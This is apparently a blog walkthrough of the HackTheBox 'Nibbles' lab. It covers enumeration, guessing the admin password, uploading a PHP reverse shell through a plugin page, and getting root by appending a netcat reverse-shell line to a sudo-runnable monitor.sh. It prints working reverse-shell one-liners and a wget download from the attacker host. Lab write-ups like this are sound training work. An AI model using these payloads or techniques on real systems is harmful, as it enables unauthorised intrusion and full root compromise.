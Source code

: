 +++
tags = ["HackTheBox", "Linux", "Web Application", "RCE"]
title = "Nibbles - HTB"
weight = 10
draft = false
images = [ "/walkthroughs/nibbles/logo.png" ]
description = "Nibbles is a fairly simple machine, however with the inclusion of a login blacklist, it is a fair bit more challenging to find valid credentials. Luckily, a username can be enumerated and guessing the correct password does not take long for most."
+++

![Logo](logo.png)

Date written: April 2024     
Date published: April 2024

## Introduction

Nibbles is a fairly simple machine, however with the inclusion of a login blacklist, it is a fair bit more challenging to find valid credentials. Luckily, a username can be enumerated and guessing the correct password should not take long. 

Nibbles is a good starter or refresher machine too. As a note I did do this box in conjunction with HTB Academy's Pentester Path. So some information may not be needed to complete the box, but its good to review.  

As always you will want to [connect](https://help.hackthebox.com/en/articles/5185687-introduction-to-lab-access) to your HTB VPN or connect to Pwnbox. Once your connected lets get started with Nibbles!

## Enumeration

 I started by running an basic port scan on the box just to see what I could access. I also added the flags -sC to run a basic set of scripts on each open port and the -sV flag to identify the version of each service running. 

 ```nmap -sV -sC $IP```

![NMAP Scan](NMAP.png)

I saw that port 80 and port 22 were open and decided to do a little more recon on each port before diving into the website. First I ran netcat banner grab on each port. Then ran the nmap script http-enum. 

The banner grab on port 22 did give me the SSH version, but port 80 did not yield anything. The nmap http-enu script did give me the same information for port 22, but also gave me the apache version of the web server. 

```bash
nc -nv  10.129.125.8 22
nc -nv  10.129.125.8 80
nmap -sV --script=http-enum 10.129.125.8
```

![NMAP HTTP enumeration and banner grabbing](NMAP2.png)

After find that information I decided to give into the webpage. The initial webpage doesn't give me much, but the source code does reveal a url I can navigate to ```http://$IP/nibbleblog```.

![Homepage source code](Nibbleblog.png)

Navigating to  ```/nibbleblog``` does not yield much either, but I decided to run a gobuster scan to see if there were any more urls I could utilize. 

```gobuster dir -u http://10.129.125.8/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt```

![Gobuster blog](gobuster.png)

After the scan completed I now have access to a handful of other directories. If this were an actual penetration test I would run gobuster/dirbuster/wfuzz/etc scan against each of those URLs as well as the main domain. 

The above screenshot does not show the ```/nibbleblog/README``` page, but it is a common page I will check along with the siteslist and robots.txt pages. I ran a ```curl``` command on the README page and it revealed the nibbleblog version the site is running. It also says the content directory is writable. Navigating to ```/nibbleblog/content``` gives me a file directory. 

```curl http://10.129.125.8/nibbleblog/README```

![Curl version](version.png)

After searching the file directory for a while I found the file ```users.xml```. I opened the file by clicking the link, but the same can be achieved by using curl. The file contains the username ```admin```. So now I have a username, but no login page, yet. 

![users directory location](<users file.png>)

![Users file contents](users.png)

I then went back to my gobuster results and navigated to the admin.php page, which is the log in page. I have the username of admin, but still need a password. My typical first password to guess is admin, but no luck. I then tried the name of the box and I was in. 

```username: admin password: nibbles```

![Log in](login.png)

## Initial Foothold

The first thing I notice on the page is the plugin directory, because plugin directories typically let you upload files. I start by crafting a reverse bash shell with in a php script. I use the [Reverse Shell Generator](https://www.revshells.com/), but my two favorite resources are [HighOn.Coffee's blog](https://highon.coffee/blog/reverse-shell-cheat-sheet/) and [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

```<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f"); ?>```

![Reverse Shell Generator](revshell.png)

![Shell file](<php shell.png>)

![Plugin](<php shell2.png>)

Once I uploaded my shell I set up a netcat listener with ```nc -lvnp $IP $PORT``` using the same IP and port I specified in my shell. 

![Listener](listener.png)

I then navigated to the directory where the ```image.php``` plug in is stored. ```/nibbleblog/content/private/plugins/my_images```

![Shell directory](<php shell3.png>)

Click the ```image.php``` shell you created, go to your listener, and there should be a shell. Once I had a base shell I upgraded it with the following commands.

```python3 -c 'import pty; pty.spawn("/bin/bash")'```

![Upgrade shell](<shell upgrade.png>)

Navigate to the ```/home/nibbler/user.txt``` file and cat your user flag!

## Privilege Escalation

In the nibbler directory there is also a file called personal.zip. I unzipped the file and saw that there is a script called monitor.sh which isn't helpful at the moment. So I then started a python server on my host machine ```sudo python3 -m http.server $Port``` to transfer the [LinEnum](https://github.com/rebootuser/LinEnum) script to the victim machine. 

![Python server](<python server.png>)

I saved the LinEnum script to my / directory. Back on the nibbler server I downloaded LinEnum with ```wget $IP/Path/To/LinEnum```. The IP should be your IP not 0.0.0.0 like the python server terminal may show. 

![LinEnum](LinEnum.png)

Once downloaded I changed the permissions of the file with ```chmod  +x LinEnum.sh```. Then ran the script with ```./LinEnum.sh```.

After a while the script will finish and I found that the user ```nibbler``` can run the file /home/nibbler/personal/stuff/monitor.sh with root privileges.
![sudo LinEnum](LinEnum2.png)

Now I know I can run the file, but what I really need is a shell, not to run the existing file. I wrote a bash script to the monitor.sh file and set up a new room listener. 

```echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f' | tee -a monitor.sh```

After the listener is set up I ran the monitor.sh file, which looks like it breaks or does nothing, but checking the listener says otherwise. 

![Root](<sudo privs.png>)

![Root Listener](<Root listner.png>)

We have root! I then cat-ed ```/root/root.txt```